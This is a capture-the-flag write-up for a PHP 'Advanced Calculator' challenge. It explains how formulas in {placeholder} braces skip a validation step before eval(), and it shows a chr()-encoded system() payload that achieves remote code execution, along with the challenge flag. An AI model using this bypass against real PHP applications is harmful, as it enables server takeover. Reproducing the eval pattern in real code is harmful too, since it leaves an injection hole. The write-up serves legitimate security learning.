




## Advanced Calculator  



We are given a web calculator implemented in PHP.  



In the source code, we can see that the flag is being read from root and is stored as an environment variable, but isn't referenced anywhere else in the program.  

This strongly hints towards RCE.  

```php
$flag = file_get_contents('/flag');
putenv("FLAG=".$flag);
```

The Dockerfile also doesn't control access to `/flag`, further supporting the RCE theory.  

```dockerfile
FROM php:8.2.2-apache

COPY deploy/src /var/www/html
COPY deploy/flag /flag

EXPOSE 80
```

The program first validates the formula against `check_formula()`, before passing it into an `eval()` call.  

```php
function calculate($formula){
    global $error;
    $error = check_formula($formula);
    if($error){

    } else {
        // Variable variables are not allowed.
        $formula = str_replace('{', '(', $formula);
        $formula = str_replace('}', ')', $formula);
        
        return eval('return ' . $formula . ';');

    }

}
```

`check_formula()` only allows digits and a defined list of safe operators, as well as a list of PHP arithmetic functions.  

The main vulnerability lies in the program's other feature. The function allows placeholders (`{x}`), which it will replace with `1.0`, allowing it to bypass the checks entirely.  

This means that if we embed a `system()` call inside a placeholder, the function will ignore it during the check, and will execute it later on in the final `eval()` call.  

```php
function check_formula($formula) {
    foreach (['//', '/*', '#', '<?', '?>'] as $commentstart) {
        if (strpos($formula, $commentstart) !== false) {
            return 'no hack';
        }
    }
    
    $formula = preg_replace(PLACEHOLDER_REGEX, '1.0', $formula);
    $formula = strtolower(str_replace(' ', '', $formula));
    
    $safeoperatorchar = '-+/*%>:^\~<?=&|!';
    $operatorornumber = "[{$safeoperatorchar}.0-9eE]";
    
    while (preg_match("~(^|[{$safeoperatorchar},(])([a-z0-9_]*)" .
             "\\(({$operatorornumber}+(,{$operatorornumber}+((,{$operatorornumber}+)+)?)?)?\\)~",
             $formula, $regs)) {
        switch ($regs[2]) {
            case '':
                if ((isset($regs[4]) && $regs[4]) || strlen($regs[3]) == 0) {
                    return $regs[0].' Illegal formula syntax';
                }
                break;
    
            case 'pi':
                if (array_key_exists(3, $regs)) {
                    return $regs[2].' does not require any args';
                }
                break;

            case 'abs': case 'ceil':
            case 'decbin': case 'decoct': case 'deg2rad':
            case 'exp': case 'floor':
            case 'octdec': case 'rad2deg':
    
            case 'round':
                if (!empty($regs[5]) || empty($regs[3])) {
                    return $regs[2].' requires one or two args';
                }
                break;
    
            default:
                return $regs[2].' is not supported';
        }

    
        if ($regs[1]) {
            $formula = str_replace($regs[0], $regs[1] . '1.0', $formula);
       
    
        } else {
            $formula = preg_replace('~^' . preg_quote($regs[2], '~') . '\([^)]*\)~', '1.0', $formula);
        }
    }

                 
    if (preg_match("~[^{$safeoperatorchar}.0-9eE]+~", $formula, $regs)) {
        return $regs[0].' Illegal formula syntax';
    } else {
        return false;
    }
}
```

One thing to note is that there is a regex check on placeholders, which blacklists a few characters. Most importantly, all quotes are blacklisted.  

```php
const PLACEHOLDER_REGEX_PART = '[[:alpha:]][^>} <`{"\']*';
const PLACEHOLDER_REGEX = '~\{(' . PLACEHOLDER_REGEX_PART . ')\}~';
```

To bypass the blacklist, we can just ASCII-encode any strings in our RCE payload.  

```php
{system(chr(108).chr(115))}     # system("ls")
```

Submitting our payload will bypass all the checks and get us RCE.  



We can then read the flag file directly.  



Flag: `DH{PHP_m45t3r_1337:8C00tdrCElte8fhPBfgh9Q==}`